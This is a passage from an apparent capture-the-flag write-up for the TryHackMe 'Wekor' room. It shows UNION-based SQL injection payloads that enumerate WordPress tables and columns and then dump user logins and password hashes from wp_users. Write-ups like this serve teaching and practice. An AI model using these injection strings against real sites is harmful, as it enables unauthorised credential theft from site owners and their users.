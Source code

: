 - Found database names:
	- coupons
	- wordpress

The `wordpress` database would be the initial foothold attack vector!! Since it'll store users credentials!

**Enumerate database `wordpress` table names:**
```sql
' UNION ALL SELECT NULL,NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='wordpress'-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Wekor/images/a10.png)

- Database `wordpress` table names:
	- wp_commentmeta
	- wp_comments
	- wp_links
	- wp_options
	- wp_postmeta
	- wp_posts
	- wp_term_relationships
	- wp_term_taxonomy
	- wp_termmeta
	- wp_terms
	- wp_usermeta
	- wp_users

The `wp_users` table looks interesting! Let's find out the column names of that table!

**Enumerate database `wordpress` table `wp_users`'s column names:**
```sql
' UNION ALL SELECT NULL,NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='wp_users'-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Wekor/images/a11.png)

- Database `wordpress` table `wp_users` column names:
	- user_login
	- user_pass
	- user_nicename
	- user_email
	- user_url
	- user_registered
	- user_activation_key
	- user_status
	- display_name

Let's retrieve some credentials!

**Retrieve data from database `wordpress` table `wp_users`:**
```sql
' UNION ALL SELECT NULL,NULL,concat(user_login,0x3a,user_pass) FROM wordpress.wp_users-- -
```
